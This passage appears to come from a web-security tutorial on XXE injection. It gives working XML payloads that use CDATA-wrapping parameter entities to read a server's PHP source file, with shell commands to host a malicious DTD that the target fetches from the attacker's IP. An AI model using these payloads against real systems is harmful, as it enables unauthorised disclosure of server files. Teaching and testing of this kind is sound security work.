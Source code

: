 
One easy way to tackle this issue would be to define a begin internal entity with <![CDATA[, an end internal entity with ]]>, and then place our external entity file in between, and it should be considered as a CDATA element, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if we reference the &joined; entity, it should contain our escaped data. **However, this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so**.

To bypass this limitation, we can utilize **XML Parameter Entities**, a special type of entity that starts with a % character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the submitDetails.php file by first storing the above line in a DTD file (e.g. xxe.dtd), host it on our machine, and then reference it as an external entity on the target web application, as follows:

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can reference our external entity (xxe.dtd) and then print the &joined; entity we defined above, which should contain the content of the submitDetails.php file, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

# Error based XXE

Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be blind to the XML output and so would not be able to retrieve the file content using our usual methods.

